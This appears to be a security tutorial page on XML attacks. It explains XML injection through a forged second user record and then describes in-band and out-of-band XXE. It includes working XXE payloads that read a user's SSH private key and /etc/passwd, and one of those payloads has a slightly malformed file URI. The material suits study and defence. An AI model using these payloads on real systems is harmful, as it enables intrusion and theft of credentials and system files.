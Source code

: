 #### XML Attacks

**XML Injection**

A primary indicator of XML injection is the creation of unwanted accounts, but it may take detailed logging and auditing to discover this. As an example, imagine an online web application is used to create and transfer user information. A user would be prompted to enter a username and an email address. The XML data may look like this

```XML
<user> <username>Homer</username> <email>homer@simpson.com</email> </user>
```

However, imagine the user entered the following data for the email address

```XML
homer@simpson.com<user <username>Attacker</username> <email>attacker@gcgacert.com</email></user>
```

If input validation is not used, this added data will create a second user account. In some instances, the XML application receiving the data will create the second account (Attacker in this example) but ignore the first account.

**XXE**

An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution. **There are two types of XXE attacks: in-band and out-of-band (OOB-XXE)**

1. **An in-band XXE** attack is the one in which the attacker can receive an immediate response to the XXE payload.
2. **out-of-band XXE** attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server. **XXE payload examples for in-band XXE** _**Reading ssh key file**_

```xml
<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/user/.ssh/id_rsa'>]>  
<root>&read;</root> 
```

_**reading /etc/passwd**_ \[1]

```xml
<!DOCTYPE test [ <!ELEMENT test ANY >  
<!ENTITY payload SYSTEM "file://etc/passwd" >]>
		 <userInfo>  
		 <firstName>motasem</firstName>  
		 <lastName>&payload;</lastName>  
		 </userInfo>
```

\[2]

```xml
<!DOCTYPE root [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>  
<root>&payload;</root> 
```
